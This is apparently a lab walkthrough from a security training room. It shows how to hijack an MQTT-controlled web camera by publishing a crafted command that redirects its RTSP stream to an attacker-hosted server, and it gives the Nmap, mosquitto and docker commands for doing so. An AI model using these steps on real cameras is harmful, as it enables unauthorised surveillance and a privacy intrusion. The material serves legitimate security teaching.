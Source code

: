 ```python
                        f.write(url_payload[URL_VALUE])
                        f.close()
                        
                    subprocess.call("../deploy/update.sh")

    client.subscribe(topic)
    client.on_message = on_message 
``` 

_Web camera expected device behavior (click to read)_

-   The expected format of the message is `{”CMD”:value,”URL”:"value"}`
    -   Note the format for quotes must match exactly, and double quotes must wrap the entire message. You can also use triple quote formatting to wrap all values and parameters in quotes. 
-   The CMD value to overwrite/redirect the RTSP URL is `10`
-   The URL value should be the _eth0_ or _ens0_ interface address of the attacking machine hosting the RTSP server and an RTSP path of your choosing.
    -   `RTSP://xxx.xxx.xxx.xxx:8554/path`

To get you started, we have provided steps for exploitation set up below,

1.  Verify that `MACHINE_IP` is an MQTT endpoint and uses the expected port with _Nmap_.
2.  Use `mosquitto_sub` to subscribe to the `device/init` topic to enumerate the device and obtain the device ID.
3.  Start an RTSP server using [rtsp-simple-server](https://github.com/aler9/rtsp-simple-server)
    -   `docker run --rm -it --network=host aler9/rtsp-simple-server`
    -   Note the port number for _RTSP_; we will use this in the URL you send in your payload.
    -   If you are having issues receiving a connection and are confident that your formatting is correct, you can attempt to use a TCP listener - `sudo docker run --rm -it -e RTSP_PROTOCOLS=tcp -p 8554:8554 -p 1935:1935 -p 8888:8888 aler9/rtsp-simple-server`
4.  Use `mosquitto_pub` to publish your payload to the `device/<id>/cmd` topic.
    
    ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/f8718ce9f1f93a9fa01ce70eed9d0be0.png)
    
    -   Recall that your URL must use the attackbox IP address or respective interface address if you are using the VPN and be in the format of `rtsp://xxx.xxx.xxx.xxx:8554/path`
    -   If the message was correctly interpreted and the RTSP stream was redirected the server should show a successful connection and may output warnings from dropped packets.
    
5.  You can view what is being sent to the server by running VLC and opening the server path of the locally hosted RTSP server.
    -   `vlc rtsp://127.0.0.1:8554/path`
    -   If you are using Kali, you must download VLC from the _snap_ package manager to ensure the proper codecs are installed. 

If you see a stream in VLC, congratulations, you have verified a takeover of the web camera stream. If you did not see the stream and are confident you followed the steps correctly and have tried the suggested remediations, restart the machine and ensure you wait 5 minutes before interacting with it.

Note the stream may take up to one minute to begin forwarding due to packet loss.